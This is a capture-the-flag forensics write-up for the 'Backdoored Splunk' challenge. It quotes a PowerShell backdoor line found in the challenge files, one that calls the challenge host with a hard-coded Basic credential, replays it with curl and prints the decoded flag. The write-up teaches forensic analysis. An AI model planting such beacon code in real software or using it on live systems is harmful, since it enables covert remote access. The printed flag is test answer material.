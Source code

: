 # Backdoored Splunk (forensics, 637 solves, 50 points)

## Introduction

<p align="left">
  <img height=700 img src=./readme_assets/splunk-challenge.PNG/>
</p>

## Solution

You are given a file and a url. When you go to the website you get an error.

<p align="left">
  <img height=300 img src=./readme_assets/splunk-error.PNG/>
</p>

Googling the error you find that we can use curl to fix the error and access the site. [reqbin](https://reqbin.com/req/curl/h4rnefmw/post-json-with-bearer-token-authorization-header). 

First we have to `grep` the splink files to find the info we need. Grepping `authorization` you found `$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$32613 -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content`

Use this info to curl the website. `curl http://chal.ctf.games:32613 -H "Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="`

You receive `ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==` in return. Decode from base64 to got the flag.

## Flag

**`flag{60bb3bfaf703e0fa36730ab70e115bd7}`**

## Tools


